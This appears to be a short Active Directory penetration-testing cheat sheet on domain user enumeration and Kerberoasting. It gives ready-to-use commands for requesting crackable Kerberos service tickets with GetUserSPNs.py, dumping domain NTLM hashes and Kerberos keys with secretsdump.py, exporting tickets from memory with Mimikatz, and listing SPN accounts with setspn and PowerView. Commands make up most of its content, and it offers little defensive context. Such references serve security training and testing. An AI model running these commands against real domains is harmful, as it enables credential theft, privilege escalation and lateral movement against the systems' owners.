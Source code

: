 ### Information about a Domain User

```
PS C:\> net user /domain <username>
```



## Kerberoasting

Kerberoasting is a lateral movement/privilege escalation technique in Active Directory environments. This attack targets Service Principal Names (SPN) accounts. SPNs are unique identifiers that Kerberos uses to map a service instance to a service account in whose context the service is running.

### Interesting Tools from Linux

> GetUserSPNs.py

It is a tool for listing SPN Accounts. The TGS tickets will be output with `-request` flag and it can be cracked later.

```
GetUserSPNs.py -dc-ip <IP> <domain>/<username> -request
```

Download: https://github.com/fortra/impacket

> secretsdump

It is a tool for extracting NTLM Hashes and Kerberos Keys.

Syntax:

```
secretsdump.py -outputfile <output> -just-dc <domain>/<username>@<IP> 
```


### Interesting Tools from Windows

> setspn

```
C:\> setspn.exe -Q */*
```

> Mimikatz

It is very interesting for extracting Tickets from Memory.

```
mimikatz # kerberos::list /export
```

> PowerView

```
PS C:\> Import-Module .\PowerView.ps1
PS C:\> Get-DomainUser * -spn | select samaccountname
```
